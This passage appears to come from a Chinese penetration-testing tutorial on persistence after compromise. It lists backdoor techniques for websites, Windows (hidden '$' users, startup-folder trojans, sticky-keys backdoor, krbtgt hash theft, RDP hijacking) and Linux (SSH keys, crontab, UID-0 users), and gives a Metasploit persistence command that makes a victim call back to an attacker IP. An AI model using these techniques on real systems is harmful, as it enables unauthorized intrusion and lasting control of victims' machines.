 


3： 404页面隐藏后门，或者在其他自带文件中插入后门代码



注：以上几种后门方法均能被D盾等工具检测到



**Windows系统**



1：建立隐藏用户，在用户名后加 $ 



2：在开机启动目录下放置木马文件，只要目标机器重启，将回连我们的远控



3：MSF里的 persistence 模块，执行命令可以使目标机器每隔一定时间自动回连远控。但是容易被发现



```
#反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀      
run persistence -X -i 5 -p 8888 -r 192.168.10.27         
#然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
```




4：在域环境下，想办法获得 krbtgt 用户的哈希，该用户的哈希可以进行票据传递攻击。而且一般该用户的密码不经常改变。



5：shift后门



6：远程桌面会话劫持 



**Linux系统**



1：SSH后门



2：crontab定时任务



3：SSH公钥



4：创建SUID=0的用户



### 痕迹清除



当我们达到了目的之后，有时候只是为了黑入网站挂黑页，炫耀一下；或者在网站留下一个后门，作为肉鸡，没事的时候上去溜达溜达；亦或者挂入挖矿木马；但是大家千万不要干这些事，这些都是违法的！

